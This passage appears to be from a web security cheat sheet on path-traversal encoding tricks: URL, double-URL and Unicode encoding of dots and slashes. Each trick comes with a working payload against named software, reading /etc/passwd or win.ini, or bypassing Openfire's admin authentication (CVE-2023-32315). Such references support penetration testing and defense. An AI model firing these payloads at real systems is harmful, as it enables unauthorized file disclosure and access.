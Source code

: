 
### URL Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |


**Example:** IPConfigure Orchid Core VMS 2.0.5 - Local File Inclusion

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```


### Double URL Encoding

Double URL encoding is the process of applying URL encoding twice to a string. In URL encoding, special characters are replaced with a % followed by their hexadecimal ASCII value. Double encoding repeats this process on the already encoded string.

| Character | Encoded |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |


**Example:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```


### Unicode Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |


**Example**: Openfire Administration Console - Authentication Bypass (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```
